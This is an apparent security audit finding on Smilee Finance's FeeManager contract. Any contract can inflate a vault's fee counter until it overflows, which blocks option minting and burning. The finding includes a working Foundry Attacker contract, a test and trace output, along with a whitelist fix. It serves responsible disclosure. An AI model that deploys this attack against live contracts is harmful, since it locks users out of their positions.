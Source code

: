 Straight Goldenrod Dachshund

medium

# `IG` contract can be DoS'd from minting or burning options

## Summary

`IG` contract can be DoS'd from minting or burning options by a malicious actor setting the `vaultFeeAmounts[vault]` to the maximum amount resulting in reverting transactions due to overflow whenevr `FeeManager.trackVaultFee` function is called

## Vulnerability Detail

- `FeeManager.trackVaultFee` function is meant to track fees collected by vaults, and it's invoked whenever an option is minted via `IG.mint` function, and whenever an option is burnt or decreased via `IG.burn` function.

- And in each operation, the vault fee is calculated via `feeManager.tradeBuyFee()` (where this fee is calculated based on the expiry time of the given DVP and the dvpFeeParam set by the feeMnager contract admin), then tracked and transferred and to the `FeeManager` contract via `feeManager.receiveFee()` and `feeManager.trackVaultFee()` functions:

  ```javascript
  //@@notice: DVP._mint function:
      function _mint(
          address recipient,
          uint256 strike,
          Amount memory amount,
          uint256 expectedPremium,
          uint256 maxSlippage
      ) internal returns (uint256 premium_) {
      //some code...
          feeManager.receiveFee(fee - vaultFee);
          //some code...
          IERC20Metadata(baseToken).safeTransferFrom(msg.sender, vault, premium_ + vaultFee);
          feeManager.trackVaultFee(address(vault), vaultFee);
          //some code...
      }
  ```

  ```javascript
  //@@notice: DVP._burn function:
      function _burn(
          uint256 expiry,
          address recipient,
          uint256 strike,
          Amount memory amount,
          uint256 expectedMarketValue,
          uint256 maxSlippage
      ) internal returns (uint256 paidPayoff) {
          //some code...
          feeManager.receiveFee(netFee);
          feeManager.trackVaultFee(address(vault), vaultFee);

          //some code...
      }
  ```

- In `FeeManager.trackVaultFee` function, it checks if the vault of the `msg.sender` Ig contract matches the vault parameter, then it increases it's `vaultFeeAmounts` by the said amount:

  ```javascript
      function trackVaultFee(address vault, uint256 feeAmount) external {
          // Check sender:
          IDVP dvp = IDVP(msg.sender);
          if (vault != dvp.vault()) {
              revert WrongVault();
          }

          vaultFeeAmounts[vault] += feeAmount;

          emit TransferVaultFee(vault, feeAmount);
      }
  ```

- But as can be noticed; this can be easily called by any contract that doesn't neccessarily be a whitelisted IG contract, and increasing the `vaultFeeAmounts[vault]` to the maixmum value (`type(uint256).max`), resulting in any call to track the fees of that vault to revert sue to overflow.

## Impact

- This would result in DoSing opening and closing/decrementing the positions related to the victim vault.
- Possible solutions to overcome this attack is:
  1.  deploy and set a new `FeeManager` contract,
  2.  or set the DVPFees to zeros (but the protocol will not collect fees from the victim IG)

**but any of these changes will not be immediate as the `timeLockDelay` must be passed first before applying any new changes, which will result in permanently disabling the IG contracts that use the victim vault.**

## Code Snippet

[FeeManager.trackVaultFee function](https://github.com/sherlock-audit/2024-02-smilee-finance/blob/3241f1bf0c8e951a41dd2e51997f64ef3ec017bd/smilee-v2-contracts/src/FeeManager.sol#L218C2-L228C6)

```javascript
   function trackVaultFee(address vault, uint256 feeAmount) external {
        // Check sender:
        IDVP dvp = IDVP(msg.sender);
        if (vault != dvp.vault()) {
            revert WrongVault();
        }

        vaultFeeAmounts[vault] += feeAmount;

        emit TransferVaultFee(vault, feeAmount);
    }
```

### Foundry PoC:

1. Add this `Attacker.sol` file in the following directory `smilee-v2-contracts/test/` :

   ```bash
   ├── smilee-v2-contracts
   │   ├── test
   │       ├──Attacker.sol
   ```

   ```javascript
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.15;

   interface IFeeManager {
       function trackVaultFee(address vault, uint256 feeAmount) external;
   }

   contract Attacker {
       // the victim vault
       address public vault;

       function setVictimVault(address victimVault_) public {
           vault = victimVault_;
       }

       function attack(address feeManagerAddress, uint256 maxValue) public {
           IFeeManager(feeManagerAddress).trackVaultFee(vault, maxValue);
       }
   }
   ```

2. Add `testDiasableIG` test to the `IG.t.sol` file in the following directory `smilee-v2-contracts/test/IG.t.sol` (note that this test is copied from `testMintAndBurn` test and modified to illustrate the vulnerability) :

   ```javascript
   function testDiasableIG() public {
           uint256 minFeeBeforeTimeThreshold = 1e5;
           uint256 minFeeAfterTimeThreshold = 1e5;
           bytes memory arithmeticError = abi.encodeWithSignature("Panic(uint256)", 0x11);

           //1. the `FeeManager` admin sets the the DVPFees (to illustrate the vulnerability, as it was set to 0 in the setUp), here the `minFeeBeforeTimeThreshold` & `minFeeAfterTimeThreshold` that are used to calculate vault fees are going to be set to values > 0
           // note that the `timeLockDelay` is set to zero in the setUp, that's whay the DVPFees are immediatly set without waiting the timelock delay to pass
           vm.startPrank(admin);
           FeeManager(ap.feeManager()).setDVPFee(
               address(ig),
               //timeToExpiryThreshold,minFeeBeforeTimeThreshold,minFeeAfterTimeThreshold,successFeeTier,feePercentage,capPercentage,maturityFeePercentage,maturityCapPercentage
               FeeManager.FeeParams(
                   3600,
                   minFeeBeforeTimeThreshold,
                   minFeeAfterTimeThreshold,
                   0,
                   0.0035e18,
                   0.125e18,
                   0.0015e18,
                   0.125e18
               )
           );
           vm.stopPrank();

           //2. alice mints a position:
           uint256 inputAmount = 1 ether;

           uint256 currEpoch = ig.currentEpoch();
           uint256 strike = ig.currentStrike();

           TokenUtils.provideApprovedTokens(address(0x10), baseToken, alice, address(ig), inputAmount, vm);
           (uint256 expectedMarketValue, ) = ig.premium(strike, inputAmount, 0);
           vm.prank(alice);
           ig.mint(alice, strike, inputAmount, 0, expectedMarketValue, 0.1e18, 0);

           //3. the attacker contract attacks the victim IG:
           uint256 maxVaultFeeToOverFlow = type(uint256).max - minFeeBeforeTimeThreshold;
           Attacker attackerContract = new Attacker();
           attackerContract.setVictimVault(address(vault));
           attackerContract.attack(ap.feeManager(), maxVaultFeeToOverFlow);

           //4. alice tries to exit her position (burn), but the transaction will revert due to overflow ("Arithmetic over/underflow"):
           vm.startPrank(alice);
           (expectedMarketValue, ) = ig.payoff(currEpoch, strike, inputAmount, 0);

           vm.expectRevert(arithmeticError);
           ig.burn(currEpoch, alice, strike, inputAmount, 0, expectedMarketValue, 0.1e18);
           vm.stopPrank();
       }
   ```

3. Explained scenario:

   1. The `FeeManager` contract admin sets the `minFeeBeforeTimeThreshold` & `minFeeAfterTimeThreshold` for the victim DVP (note that in the test file the `timeLockDelay` is set to zero, that's why the DVPFees are set immediatly without waiting for the timeLock delay to pass, and this is not the case in real deployment).
   2. Alice mints a position.
   3. An attacker contract is being deployed with `vault()` being the same used by the victim `IG` contract, then the attacker contract calls `FeeManager.trackVaultFee` on the victim vault to increase its fee amount to the maximum value.
   4. Now alice tris to exit her position from the victim `IG` contract, but the transaction will revert due to arithmetic overflow.

4. Test result:

   ```bash
   $ forge test --mt testDiasableIG -vvvvv

       │   ├─ [1647] FeeManager::trackVaultFee(MockedVault: [0x1E1eC29a0C2D587fD88e9980858e4cBc7242bB22], 100000 [1e5])
       │   │   ├─ [348] MockedIG::vault() [staticcall]
       │   │   │   └─ ← MockedVault: [0x1E1eC29a0C2D587fD88e9980858e4cBc7242bB22]
       │   │   └─ ← "Arithmetic over/underflow"
       │   └─ ← "Arithmetic over/underflow"
       ├─ [0] VM::stopPrank()
       │   └─ ← ()
       └─ ← ()

   Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 24.99ms
   Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
   ```

## Tool used

Manual Review & Foundry.

## Recommendation

Whitelist the `IG` contracts that are allowed to interact with the `FeeManager` contract.